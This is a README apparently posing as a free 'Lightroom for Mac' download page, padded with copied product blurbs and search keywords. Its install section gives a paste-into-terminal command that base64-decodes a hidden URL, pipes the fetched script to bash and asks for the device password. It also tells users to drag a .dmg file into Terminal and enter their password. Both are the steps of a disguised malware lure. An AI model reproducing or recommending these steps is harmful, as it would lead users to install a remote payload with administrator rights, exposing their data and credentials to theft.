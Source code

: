 # Lightroom for Mac

![Lightroom Logo](https://static.vecteezy.com/system/resources/previews/056/850/713/non_2x/adobe-lightroom-logo-with-transparent-background-free-png.png)

---

## 📦 Download

[![⬇️ Download Now](https://img.shields.io/badge/Lightroom-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/lightroom)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🧠 What is Lightroom for Mac?

**Lightroom for Mac** is a professional photo editing and management software developed by **Adobe**, tailored specifically for **macOS** users. Whether you're a beginner looking to enhance everyday photos or a seasoned photographer managing large photo libraries, Lightroom offers intuitive controls and industry-standard editing tools.

With **Lightroom**, users can adjust lighting, color, exposure, and apply advanced retouching — all within a sleek, macOS-optimized interface. The program includes powerful features such as **non-destructive editing**, **AI-based enhancements**, and **batch processing**, allowing you to transform your images with precision and speed.

Integrated with **Adobe Creative Cloud**, Lightroom enables seamless syncing across devices — edit on your MacBook, and continue on your iPad or iPhone. It's also optimized for the **latest Apple Silicon (M1, M2, M3)** chips, providing ultra-fast performance and battery efficiency.

Whether you're working from a **MacBook Air**, **MacBook Pro**, **Mac Studio**, or **Mac Mini**, Lightroom adapts to your workflow and helps you achieve beautiful results.

---

## 🌟 Key Features

- Full RAW photo editing support  
- Non-destructive adjustments  
- AI-powered tools (e.g., sky replacement, masking)  
- Integrated cloud syncing via Adobe Creative Cloud  
- Preset management & creation  
- Batch photo editing  
- Facial recognition and tagging  
- Works seamlessly with **Photoshop** and other Adobe apps  
- Optimized for macOS, including dark mode

---

![Lightroom Screenshot](https://helpx.adobe.com/content/dam/lightroom/workspace_basics.png)

---

## 💻 Compatibility

- macOS **11 Big Sur** and later  
- Compatible with **macOS Monterey**, **Ventura**, **Sonoma**  
- Native support for **Apple Silicon (M1, M2, M3)** and **Intel-based Macs**  
- Runs on **MacBook Pro**, **MacBook Air**, **iMac**, **Mac Studio**, **Mac Mini**

---

## 🔑 Keywords

`lightroom mac`, `lightroom classic mac`, `lightroom classic for mac`, `lightroom software for mac`, `lightroom for macbook`, `lightroom osx`, `lightroom classic for macbook air`, `lightroom in mac`, `lightroom mac book`, `lightroom macos`, `lightroom for mac m1`, `lightroom cc mac`, `lightroom free mac`, `lightroom for macbook pro`, `lightroom macbook pro`, `lightroom for mac free reddit`, `lightroom macbook air`, `free lightroom for macbook air`, `lightroom for mac full`, `lightroom for macbook free`, `lightroom mac mini`, `lightroom mac m1`, `lightroom app for mac`, `lightroom for desktop mac`, `lightroom classic for macbook pro`, `lightroom m1`, `lightroom classic mac m1`, `lightroom desktop mac`, `lightroom for mac desktop`, `lightroom classic macos`

---
